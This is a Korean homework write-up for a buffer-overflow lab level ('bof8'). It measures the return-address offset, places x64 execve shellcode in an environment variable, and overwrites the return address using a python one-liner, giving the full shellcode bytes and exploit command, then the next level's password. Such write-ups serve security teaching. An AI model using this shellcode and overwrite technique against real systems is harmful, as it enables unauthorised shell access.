

# GBC_security HW7  
## bof8 write-up  

오늘 실험에 쓸 쉘코드는 [링크](http://shell-storm.org/shellcode/files/shellcode-806.php)에서 만들어진 리눅스 x64 아키텍처용 쉘 코드이다.  

우리가 직접 쉘 코드를 만들지 않고 ```\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05```를 쓰겠다.  

시작해보자.  

일단, gets와 strcpy의 취약점은 input을 버퍼에 저장할 때 길이 검증 없이 데이터를 스택에 쌓는다.  
이러한 부분을 이용할 것인데, 이번에는 함수의 return address를 약간 조작(?)하여 쉘코드를 실행시킬 것이다.  


  
소스코드이다.  

6번과 7번 그리고 우린 bof문제를 123456번을 풀었다.  
슬슬 감이 오지않는가?  

늘 하던대로 가보자.  
vuln의 return address와 buf의 adreess로 길이를 구해보자.  

  
vuln의 return address = p $rsp = 0x7fffffffe4a8  

  
bof7과 동일하다.  
우린 error에 잡히면 안된다.  
7번과 같이 ZF를 바꿔 error를 피해보자!  

  
확인해보면, buf의 address는 0x7fffffffe498이다.  

  
길이는 16이다.  

즉, 16의 길이만큼 의미없는 값을 넣고 return address를 buf address로 덮으면 된다.  
근데 여기서 문제가 있다.  
쉘코드의 길이는 27인데 vuln의 return address와buf address차이가 16이다.  

즉, 쉘코드만으로 이미 길이를 넘어버린다.  

여기서 hint를 사용해서, getenv라는 함수에서 SHELLCODE를 get해주는 것 같은데, export로 SHELLCODE를 직접 입력해준다.  
```  
export SHELLCODE = `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'"`  
```  
이렇게 하면 아마 SHELLCODE에 SHELL code 값을 넣어주는 것 같다.  
그 후, 알고있던 데로, 'x'로 16개의 길이를 덮고, return address를 이번엔 buf의 address가 아닌, 코드에 있는 SHELLCODE의 address로 준다.  
그것은 printf로 되기때문에 실행을 해준다.  

  
SHELLCODE가 제대로 넣어졌다(그전에 export안했을 땐 nil으로 떴음)  
이제 SHELLCODE의 주솟값이 0x7fffffffe83e인 것을 알았으니, 
(python -c "print 'x'*16+'\x3e\xe8\xff\xff\xff\x7f'";cat) | ./bof8 으로 실행해본다.  

  
> bof9 passwd = <u>e0caa67f</u>